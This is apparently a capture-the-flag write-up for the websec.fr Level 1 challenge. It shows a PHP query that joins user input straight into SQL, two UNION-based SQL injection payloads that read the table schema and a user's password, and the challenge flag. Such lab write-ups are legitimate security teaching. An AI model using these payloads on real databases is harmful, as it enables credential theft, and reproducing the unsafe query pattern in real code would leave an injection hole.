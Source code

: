 Level 1
===
1. First, lets check what is written in http://websec.fr/level01/source.php
2. Then we can find that there is no keywords that would be filter, so we could skip most of them and find : 
```
"$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';"
```
3. If we filled in the blank on the website, we would find out : 
```
"$query = ‘SELECT id,username FROM users WHERE id=’ . 1 . ’ LIMIT 1’;"
```
4. We first check out what kinds of tables is there in the database using the command :
```
1 UNION SELECT 1, sql FROM sqlite_master WHERE tbl_name='users'--
```
5. Okay! Then we are able to use the strong command "UNION" to get what we need ~~~
```
1 union select 1,password from users where id=1
```
6. Here is the flag : WEBSEC{Simple_SQLite_Injection}
